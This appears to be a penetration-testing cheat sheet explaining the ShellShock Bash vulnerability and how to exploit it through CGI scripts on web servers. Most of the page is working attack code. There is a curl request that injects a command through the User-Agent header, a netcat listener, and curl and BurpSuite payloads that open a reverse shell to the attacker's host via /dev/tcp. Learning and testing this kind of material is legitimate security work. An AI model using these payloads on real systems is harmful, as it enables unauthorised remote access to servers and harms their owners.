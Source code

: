 # ShellShock

## ShellShock

Is a security bug in the Unix Bash shell that causes Bash to execute bash commands from environment variables. The vulnerability relies on the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. Therefore, an attacker can execute arbitrary commands on the system or exploit other bugs that may exist in Bash's command interpreter, if the attacker has a way to manipulate the environment variable list.

The vulnerability allows us, after not correctly validating the declaration of functions in variables, to execute remote commands on systems through queries in this case by means of web requests. A common foothold can be to list the **/cgi-bin/** directory of a web page. If it exists, we can search for files with the extension **'.cgi'**, although it is not strictly necessary... because it could also be a file with a **'.sh'** extension and the effects would be the same. In case of finding these resources, we can perform tests such as those described below. 

We can test this with this:

```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://TARGET_IP/cgi-bin/test/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we listen through a port on our computer via Netcat

```bash
nc -lvnp YOUR_PORT
```

Then we make the following request from the terminal to the web service:

```bash
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1" "https://192.168.1.X:10000/cgi-bin/filename.cgi"
```

If everything goes well and you are vulnerable to the exploitation of this vulnerability, we must gain access to the system from our listening session. 

Warning: In case /bin/bash does not work, it is recommended to try alternatives, as there are times when the absolute path of the binary is not the one we have specified, so it will require a slight manual enumeration or a simple alternative mode of connection.

Another option is from BurpSuite, we manipulate the User-Agent so that the following content appears:

```http
User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
```

